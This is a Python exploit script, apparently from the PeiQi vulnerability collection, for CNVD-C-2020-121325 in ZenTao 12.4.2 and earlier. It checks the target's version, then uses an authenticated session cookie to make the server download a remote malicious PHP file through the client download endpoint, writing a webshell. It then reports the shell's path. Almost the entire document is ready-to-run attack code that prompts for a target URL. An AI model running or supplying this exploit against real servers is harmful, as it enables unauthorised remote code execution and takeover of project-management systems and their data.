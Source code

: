 ```python
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: zentao version <= 12.4.2                                 \033[0m')
    print('+  \033[36m使用格式: python3 CNVD-C-2020-121325.py                             \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mShell       >>> http://xxx.xxx.xxx.xxx/shell.php(恶意文件地址)       \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)


def POC_2(target_url, shell_url, zentaosid):
    options = shell_url.split("://")
    if options[0] == "http":
        shell_url = "HTTP://" + options[1]
    elif options[0] == "ftp":
        shell_url = "ftp://" + options[1]
    else:
        print("\033[31m[x] 请使用正确的请求地址 \033[0m")
        sys.exit(0)

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"zentaosid={}".format(zentaosid)
    }

    shell_url_base = str((base64.b64encode(shell_url.encode('utf-8'))),'utf-8')
    vuln_url = target_url + "/www/index.php?m=client&f=download&version=test&link={}".format(shell_url_base)
    print("\033[32m[o] 请求漏洞url：{}\033[0m".format(vuln_url))

    try:
        response = requests.get(url=vuln_url, timeout=20, headers=headers)
        if "保存成功" in response.text:
            print("\033[32m[o] 成功写入Webshell，URL地址为：{}/www/data/client/test/Webshell_name.php\033[0m".format(target_url))
        else:
            print("\033[31m[x] 恶意文件下载失败 \033[0m")
    except:
        print("\033[31m[x] 恶意文件下载失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    shell_url  = str(input("\033[35mShell >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, shell_url, zentaosid)
```